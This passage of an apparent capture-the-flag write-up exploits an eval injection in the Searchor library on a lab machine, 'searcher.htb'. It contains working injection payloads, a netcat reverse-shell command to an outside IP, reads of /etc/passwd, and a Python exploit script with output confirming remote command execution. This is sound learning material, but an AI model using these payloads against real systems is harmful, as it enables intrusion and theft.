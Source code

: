 So if we do that from the cli that should work too
```bash
searchor search Youtube "'),dir(),Engine.Youtube.search('"
('https://www.youtube.com/results?search_query=', ['copy', 'engine', 'open', 'query'], 'https://www.youtube.com/results?search_query=')
```

And it does, so assuming that the webapp calls the that same function in the main somehow, it should give us RCE this way
```bash
curl -X POST \
  http://searcher.htb/search \
  -d 'engine=Youtube&query=%27%29%2Cdir%28%29%2CEngine.Youtube.search%28%27'

('https://www.youtube.com/results?search_query=', ['copy', 'engine', 'open', 'query'], 'https://www.youtube.com/results?search_query=')
```

eval, is a bit inconvenient, as we can't really separate our statements with semicolons,  
So I ended up finding a stack overflow post suggesting to call os.system to do a netcat reverse shell
And the nc shell itself didn't work, but I could start playing with that:
```bash
'),__import__('os').system('nc 10.10.14.39 4242 -e /bin/sh'),Engine.Youtube.search('
'),__import__('os').system('ping -c3 10.10.14.39'),Engine.Youtube.search('
'),__import__('os').system('cat /etc/passwd'),Engine.Youtube.search('
'),__import__('os').system('pwd'),Engine.Youtube.search('
```

Let's make a quick exploit script
```python
import sys
import requests
from urllib.parse import quote, urlencode, quote_plus

cmd = sys.argv[1]
url = "http://searcher.htb/search"
headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "Accept": "*/*"
}
payload = f"'),__import__('os').system('{cmd}'),Engine.Youtube.search('"
encoded = quote(payload, safe="")
data = f"engine=Youtube&query={encoded}"

res = requests.post(url, headers=headers, data=data)
print(res.status_code)
print(res.text)
```

```
python3 tool.py "id"
200
uid=1000(svc) gid=1000(svc) groups=1000(svc)
('https://www.youtube.com/results?search_query=', 0, 'https://www.youtube.com/results?search_query=')

python3 tool.py "pwd"
200
/var/www/app
('https://www.youtube.com/results?search_query=', 0, 'https://www.youtube.com/results?search_query=')

python3 tool.py "cat /etc/passwd"|grep sh$
root:x:0:0:root:/root:/bin/bash
svc:x:1000:1000:svc:/home/svc:/bin/bash

```